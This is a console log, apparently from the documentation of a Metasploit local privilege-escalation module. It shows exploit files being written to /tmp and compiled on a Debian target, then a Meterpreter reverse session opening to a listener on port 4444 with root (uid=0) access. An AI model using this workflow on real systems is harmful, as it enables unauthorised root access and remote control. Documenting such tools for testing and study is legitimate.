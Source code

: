    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Writing files to target
    [*] Writing rootshell to /tmp/rootshell.c
    [*] Max line length is 65537
    [*] Writing 345 bytes in 1 chunks of 1198 bytes (octal-encoded), using printf
    [*] Writing sploit to /tmp/sploit.c
    [*] Max line length is 65537
    [*] Writing 7632 bytes in 1 chunks of 26966 bytes (octal-encoded), using printf
    [*] Writing rootmod to /tmp/rootmod.c
    [*] Max line length is 65537
    [*] Writing 1115 bytes in 1 chunks of 4016 bytes (octal-encoded), using printf
    [*] Writing Makefile to /tmp/Makefile
    [*] Max line length is 65537
    [*] Writing 18 bytes in 1 chunks of 66 bytes (octal-encoded), using printf
    [*] Writing payload to /tmp/cCacqozW
    [*] Max line length is 65537
    [*] Writing 206 bytes in 1 chunks of 567 bytes (octal-encoded), using printf
    [*] Starting execution of priv esc.
    [*] Transmitting intermediate stager...(126 bytes)
    [*] Sending stage (2440248 bytes) to 192.168.2.83
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.83:48762) at 2017-02-25 22:18:27 -0500
    
    meterpreter > sysinfo
    Computer     : 192.168.2.83
    OS           : Debian 8.7 (Linux 3.16.0-4-amd64)
    Architecture : x64
    Meterpreter  : x64/linux
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0

